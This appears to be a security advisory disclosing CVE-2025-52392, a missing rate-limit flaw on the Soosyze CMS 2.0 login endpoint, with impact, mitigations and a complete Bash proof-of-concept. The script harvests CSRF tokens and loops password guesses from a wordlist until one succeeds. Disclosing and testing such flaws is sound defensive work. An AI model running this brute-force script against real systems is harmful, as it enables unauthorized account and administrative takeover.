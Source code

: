 # Brute Force Login Vulnerability in Soosyze CMS 2.0 (CVE-2025-52392)

**Vendor:** Soosyze

**Product:** Soosyze CMS

**Version Affected:** 2.0 (confirmed)

**Component:** /user/login – Authentication Controller

**CWE:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

**Attack Vector:** Remote (network exploitable)

### Description

Soosyze CMS 2.0 contains a vulnerability in the /user/login authentication endpoint that allows unlimited credential-guessing attempts due to the absence of rate limiting and account lockout mechanisms.

A remote, unauthenticated attacker can submit unlimited HTTP POST requests with varying passwords for a known username/email without triggering any throttling, delay, or lockout.

The vulnerability can be exploited using automated tools such as THC Hydra, Burp Suite Intruder, or custom scripts, enabling brute-force attacks that may lead to compromise of administrative accounts.

Testing confirmed that the server issues a valid login form and CSRF token on every request, and accepts repeated authentication attempts without introducing timing penalties or invalidating sessions.

No vendor patch or mitigation was available at the time of publication.

### Impact

Successful exploitation may allow:

* Account Compromise: Unauthorized access to valid user accounts.
* Administrative Takeover: Full compromise of the CMS instance if administrative credentials are obtained.
* Data Exposure/Modification: Unrestricted access to protected content and potential injection of malicious configurations or content.

Impact Scope:

* Confidentiality: High
* Integrity: High
* Availability: Low

### Proof of Concept (PoC)

#### Overview

The following PoC demonstrates a brute-force authentication vulnerability in **Soosyze CMS 2.0** at the `/user/login` endpoint.\
The issue is caused by **missing rate limiting and account lockout mechanisms**, allowing an attacker to try unlimited password guesses.

**Steps to Reproduce**

1. Deploy or access a Soosyze CMS 2.0 instance.
2. Identify a valid username or email address (e.g., test@test.com).
3. Prepare a password dictionary (e.g., rockyou.txt).
4. Execute the provided Bash PoC script to perform automated POST login attempts.

#### PoC Script

```bash
#!/usr/bin/env bash
# Author: Beatriz Fresno Naumova (beafn28)
# Usage:
#   ./script.sh [wordlist.txt]
# If no wordlist is provided, a dictionary will be used.

set -euo pipefail

BASE_URL="http://localhost:8000"
LOGIN_PATH="/user/login"
EMAIL_FIELD="email"
PASS_FIELD="password"
TARGET_EMAIL="test@test.com"

WORDLIST_FILE="${1:-}"
DEFAULT_WORDS=("123456" "admin" "password" "qwerty" "letmein" "admin123" "password1")

form_url="$BASE_URL$LOGIN_PATH"
COOKIE_JAR="$(mktemp)"

get_form() {
    curl -sS -c "$COOKIE_JAR" -b "$COOKIE_JAR" "$form_url" > /tmp/login_page.html
}

extract_token() {
    local name value
    name=$(sed -nE 's/.*name="([_a-zA-Z0-9:-]*(token|csrf)[_a-zA-Z0-9:-]*)".*type="hidden".*/\1/p' /tmp/login_page.html | head -n1 || true)
    value=""
    if [[ -n "$name" ]]; then
        value=$(sed -nE "s/.*name=\"$name\".*value=\"([^\"]*)\".*/\1/p" /tmp/login_page.html | head -n1 || true)
    fi
    printf '%s\t%s\n' "$name" "$value"
}

post_login() {
    local pass="$1" tname="$2" tval="$3"
    curl -sS -o /tmp/resp.html -w "%{http_code}" \
        -c "$COOKIE_JAR" -b "$COOKIE_JAR" \
        -X POST "$form_url" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -H "Origin: $BASE_URL" -H "Referer: $form_url" \
        --data-urlencode "$EMAIL_FIELD=$TARGET_EMAIL" \
        --data-urlencode "$PASS_FIELD=$pass" \
        $( [[ -n "$tname" && -n "$tval" ]] && printf -- '--data-urlencode %s=%s' "$tname" "$tval" )
}

echo "[*] Starting brute-force attack on $form_url"
[[ -n "$WORDLIST_FILE" && -r "$WORDLIST_FILE" ]] && mapfile -t words < "$WORDLIST_FILE" || words=("${DEFAULT_WORDS[@]}")

i=0
for pw in "${words[@]}"; do
    i=$((i+1))
    get_form
    IFS=$'\t' read -r TOKEN_NAME TOKEN_VALUE < <(extract_token)
    code=$(post_login "$pw" "$TOKEN_NAME" "$TOKEN_VALUE")

    if grep -q '"redirect"' /tmp/resp.html; then
        echo -e "[$i] Password found: '\e[1m$pw\e[0m' (HTTP $code)"
        break
    else
        echo "[$i] '$pw' (HTTP $code)"
    fi

    sleep 0.$((RANDOM%9+1))
done

rm -f "$COOKIE_JAR" /tmp/resp.html
```

#### Execution example

```
./poc.sh rockyou.txt
```

<figure><img src="../.gitbook/assets/image (1679).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.40 (1).png" alt=""><figcaption></figcaption></figure>

### Mitigation

* Implement server-side rate limiting (e.g., maximum 5 failed attempts per minute per IP).
* Apply temporary account lockout after multiple failed attempts.
* Introduce CAPTCHA or other bot-mitigation mechanisms after repeated failed logins.
* Consider logging and monitoring repeated failed authentication attempts.

### Discoverer

Beatriz Fresno Naumova (beafn28)

### References

* CVE: [CVE-2025-52392](https://www.cve.org/CVERecord?id=CVE-2025-52392)
* Public advisory: [https://beafn28.gitbook.io/beafn28/cve/brute-force-login-vulnerability-in-soosyze-cms-2.0-cve-2025-52392](https://beafn28.gitbook.io/beafn28/cve/brute-force-login-vulnerability-in-soosyze-cms-2.0-cve-2025-52392)
